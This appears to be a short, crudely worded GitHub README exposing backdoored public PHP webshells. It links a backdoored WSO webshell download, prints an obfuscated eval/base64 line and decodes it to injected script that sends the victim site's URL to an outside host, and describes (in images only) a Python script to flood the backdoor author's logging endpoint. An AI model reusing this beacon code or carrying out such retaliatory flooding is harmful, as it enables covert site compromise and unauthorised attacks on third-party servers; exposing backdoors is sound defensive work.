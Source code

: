 # Disturbing Public Backdoored Webshells
## _because it only cost few minutes :)_


I noticed that most of the sites which supposedly offer webshells, all of them are backdoored, and likely its indexed first when you googling for webshells.

- Decoding the hardcoded php webshell.
- Looking around.
- Cum on it ✨ 

## !Let's Start!
> a backdoored wso webshell : https://shellx.org//Shell/wsodownload.txt
> Let's decode the hardcoded php here : https://malwaredecoder.com/

##### As you can see decrypted code level 3.
![huh](https://i.imgur.com/qick3FL.png)

Another example here : 
```
eval("?>".base64_decode("PFNDUklQVCBTUkM9aHR0cDovL3NoZWxseC5vcmcvaGlkZS9jc2huMS9jY3MuanM+PC9TQ1JJUFQ+"));
=========================== base64 decoded ===================================
<SCRIPT SRC=http://shellx.org/hide/cshn1/ccs.js></SCRIPT>
=============================== Content ======================================
a=new/**/Image();a.src='http://shellx.org/hide/add.php?a='+escape(location.href);
```

### Let's cum on it 
> well its a simple python code to spam his (logfile which it contains all the stolen shell results) :
![huh](https://i.imgur.com/843asnj.png)
![huh](https://i.imgur.com/6rvpxll.png)

**i hope u gonna get a big file like your acts loolz.**
 

